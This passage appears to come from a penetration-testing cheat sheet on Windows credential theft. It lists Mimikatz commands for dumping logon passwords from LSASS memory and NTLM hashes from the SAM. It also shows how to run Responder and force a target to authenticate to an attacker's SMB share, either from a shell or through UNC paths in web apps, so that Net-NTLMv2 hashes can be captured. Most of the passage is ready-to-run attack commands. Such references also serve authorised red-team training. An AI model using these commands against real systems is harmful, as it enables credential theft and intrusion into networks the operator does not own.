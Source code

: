 **(3) Mimikatz**

The most powerful credential-dumping tool.

1. **Upload and execute** `mimikatz.exe` on the target machine

2. **Enable Debug Privileges**. This should be a standard for running mimikatz as it `SeDebugPrivilege` access right enabled to run command such as `sekurlsa::logonpasswords` and `lsadump::sam`.

    ```dos
    mimikatz # privilege::debug
    Privilege '20' OK
    ```

    This should return **Privilege '20' OK**.

3. **Extract Logon Passwords**. This command parses the LSASS process memory for credentials of logged-on users.

    ```dos
    sekurlsa::logonpasswords
    ```

4. **Dump NTLM hashes** from the SAM. You must first run `token::elevate` to elevate to `SYSTEM` user privileges.

    ```dos
    mimikatz # token::elevate
    mimikatz # lsadump::sam
    ```

---

### Abuse the Net-NTLMv2

If you cannot dump hashes directly, you can capture a **Net-NTLMv2** hash. This is a challenge-response hash used for network authentication and is more secure than NTLMv1. Unlike an NTLM hash, it cannot be used for Pass-the-Hash but can be cracked offline or relayed.

1. **Set up a fake SMB/HTTP server** using **[Responder](https://github.com/lgandx/Responder)** or similar tool.

    ```sh
    # sudo responder -I <your_network_interface> -v
    sudo responder -I tap0 -v
    ```

2. **Trigger Authentication**. Force a Windows machine to authenticate to your listener.
 
    * **From a Shell**: If you have command execution, request a resource from your attacker machine's fake share.

    ```sh
    dir \\<your_ip>\share
    ```

    * **From a Web App**: If there's a feature that processes UNC paths (e.g., file upload, avatar from URL), provide a path to your listener.
